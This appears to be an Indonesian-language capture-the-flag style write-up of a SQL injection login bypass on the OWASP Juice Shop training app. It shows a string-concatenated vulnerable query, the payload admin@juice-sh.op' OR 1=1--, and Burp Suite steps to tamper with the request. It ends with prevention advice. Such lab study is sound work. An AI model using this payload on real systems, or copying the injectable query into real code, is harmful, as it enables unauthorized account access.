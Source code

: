 Struktur query rentan biasanya seperti berikut:

```sql
SELECT * FROM users WHERE email = '$email' AND password = '$password';
```

### Query Setelah Injeksi

Jika input email menggunakan payload `admin@juice-sh.op' OR 1=1--`, maka query yang dijalankan menjadi:

```sql
SELECT * FROM users WHERE email = 'admin@juice-sh.op' OR 1=1--' AND password = 'aaaa';
```

Penjelasan:

* `admin@juice-sh.op'` → bagian email asli.
* `OR 1=1` → kondisi selalu benar.
* `--` → menandakan komentar SQL, sehingga sisa query (termasuk validasi password) diabaikan.

Akibatnya, sistem hanya memerlukan kecocokan `email`, sementara password diabaikan. Hal ini memungkinkan login sebagai admin meskipun password salah.

---

## Alternatif dengan Burp Suite

Selain langsung di form, injeksi juga bisa dilakukan dengan **memodifikasi request** menggunakan Burp Suite:

1. **Intercept Request** login. <img width="1919" height="1131" alt="image" src="https://github.com/user-attachments/assets/27f26d09-08e9-4354-8cec-895708ef24d3" />

2. Ubah parameter **email** menjadi:

   ```
   admin@juice-sh.op' OR 1=1--
   ```

   <img width="1919" height="1134" alt="image" src="https://github.com/user-attachments/assets/0cf49c22-c112-4152-8282-90e56e51b639" />

3. Forward request, dan hasilnya akan berhasil login sebagai admin.

   <img width="1536" height="895" alt="Screenshot 2025-09-10 at 08 13 28" src="https://github.com/user-attachments/assets/c8a6f7e3-053e-4b08-9b0b-7db0b3121006" />

---

## Catatan Penting

* Teknik ini hanya untuk pembelajaran dan praktik di **lingkungan yang legal** (misalnya aplikasi Juice Shop atau lab keamanan).
* SQL Injection dapat dicegah dengan:

  * Menggunakan **Prepared Statement / Parameterized Query**.
  * Melakukan **validasi input**.
  * Menerapkan **least privilege** pada database user.
